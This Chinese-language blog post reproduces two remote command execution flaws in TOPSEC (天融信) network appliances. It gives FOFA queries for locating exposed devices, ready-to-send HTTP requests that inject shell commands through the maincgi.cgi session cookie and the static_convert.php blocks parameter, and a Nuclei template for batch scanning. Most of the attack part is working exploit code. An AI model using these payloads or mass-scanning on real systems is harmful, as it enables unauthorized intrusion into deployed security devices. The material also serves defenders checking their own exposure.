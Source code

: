# 原创
：  漏洞复现--天融信TOPSEC两处远程命令执行

# 漏洞复现--天融信TOPSEC两处远程命令执行

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

天融信（TOPSEC）是国内领先的网络安全解决方案提供商之一。他们专注于网络安全技术和产品的研发、生产和服务，为政府机构、企业和个人用户提供全面的网络安全解决方案。

### 二：漏洞影响版本

天融信TOPSEC

### 三：网络空间测绘查询

fofa:<br/> `title="Web User Login" &amp;&amp; body="/cgi/maincgi.cgi?Url=VerifyCode"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d8316c513a6beecae022ece15ca17371.jpeg"/>

### 四：漏洞复现1

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fda7ad301d609f32c604be98b1478021.jpeg"/><br/> POC1:

```
GET /cgi/maincgi.cgi?Url=aa HTTP/1.1
Host: X.X.X.X
Cookie: session_id_443=1|echo 'vulnerability!' &gt; /www/htdocs/site/image/vul.txt;
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/64dd6da68b13fb993d89d93853dce8df.jpeg"/><br/> 访问/site/image/vul.txt<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/1b413feb3127c0e214986ab522e691e7.jpeg"/>

### 五：批量检测

```
id: Trx-topsec-maincgi-cookie-rce

info:
  name: Trx-topsec-maincgi-cookie-rce
  author: 芝士土拨鼠
  severity: critical
  description: 天融信（TOPSEC）是国内领先的网络安全解决方案提供商之一。他们专注于网络安全技术和产品的研发、生产和服务，为政府机构、企业和个人用户提供全面的网络安全解决方案。
variables:
  file_name: "{{to_lower(rand_text_alpha(6))}}"
  file_content: "{{to_lower(rand_text_alpha(15))}}"
requests:
  - raw:
      - |+
        GET /cgi/maincgi.cgi?Url=aa HTTP/1.1
        Host: {{Hostname}}
        Cookie: session_id_443=1|echo '{{file_content}}' &gt; /www/htdocs/site/image/{{file_name}}.txt;
        User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36

      - |
        GET /site/image/{{file_name}}.txt HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36

    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 &amp;&amp; status_code_2 == 200 &amp;&amp; contains(body_2, '{{file_content}}')"

```

### ：漏洞复现2

fofa：<br/> `app="天融信-上网行为管理系统"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/126580c78583a65cebf196a006826f4c.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4c1f9523d69cf30e90cd609b23c6f9a7.jpeg"/><br/> POC:

```
GET /view/IPV6/naborTable/static_convert.php?blocks[0]=||%20%20echo%20'vulnerability!'%20&gt;&gt;%20/var/www/html/vul.txt%0A HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8bef3f65e9cc2f0f8db5ea75e113aeb8.jpeg"/><br/> 访问vul.txt<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/1355333421e3ee307ad4185527cf2f25.jpeg"/>
